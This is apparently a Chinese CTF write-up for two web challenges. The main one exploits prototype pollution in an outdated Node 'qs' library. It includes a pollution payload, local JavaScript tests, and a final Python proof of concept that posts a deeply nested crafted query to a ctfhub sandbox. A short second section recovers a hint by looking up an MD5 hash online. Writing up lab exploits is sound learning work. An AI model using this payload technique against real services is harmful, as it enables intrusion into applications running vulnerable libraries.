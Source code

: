 # hackjs
	- 思路
		- 依赖qs版本过低，存在原型链污染漏洞
		- 构造过深的嵌套列表，使得JSON.stringify报错，并使用原型链污染构造特殊列表，使得此列表转为字符串后为`flag`
	- 依赖qs版本过低
		- 题目源码拿到手，安装npm报出了3个漏洞，`npm audit`报告说qs版本过低，给了一个[链接](https://github.com/advisories/GHSA-hrpp-h998-j3pp)
		- 查看拿到原型链污染的payload
			- ```
			  a[__proto__]=b&a[__proto__]&a[length]=100000000
			  ```
	- 构造payload
		- 使`JSON.stringify`报错
			- 构造一个很深的列表`[[[....]]]`即可
		- 本地测试发现
			- 构造这么一个对象时，toString在theProto上调用，而JSON.stringify在theObject上调用
			- ```js
			  let o = {
			      "name": "theObject"
			  }
			  o.__proto__ = ["theProto"]
			  console.log(o+"")
			  console.log(JSON.stringify(o))
			  ```
			- 所以可以这样子构造题目需要的venom.text
			- ```js
			  let l = ["x"]
			  for(let i = 0; i < 10000; i ++) {
			      l = [l]
			  }
			  
			  let a = {"key1": "x", "key2": l}
			  a.__proto__ = ["flag"]
			  console.log(a)
			  console.log(a+"")
			  ```
	- 最终PoC
		- ```python
		  manyzeros = "[0]" * 10000
		  payload = "venom[__proto__][welcome]=159753&venom[text][__proto__][]=flag&venom[text][key1]=x&venom[text][key2]MANYZEROS=x".replace("MANYZEROS", manyzeros)
		  
		  url = "http://venom-7a55695341796f4f.sandbox.ctfhub.com:57040/plz"
		  
		  r = requests.post(url, data=payload, headers = {
		      "Content-Type": "application/x-www-form-urlencoded"
		  })
		  print(r.text)
		  
		  ```
- # Checkin
	- `wget -r`下载题目源码，发现源码中有提示：`Quick pass cheat: I heard that Venom is ChaMd5’s, here is a mysterious string for you. 88d18c420654d158d22b65626bc7a878`
	- 用somd5.com查找给定md5即可
-
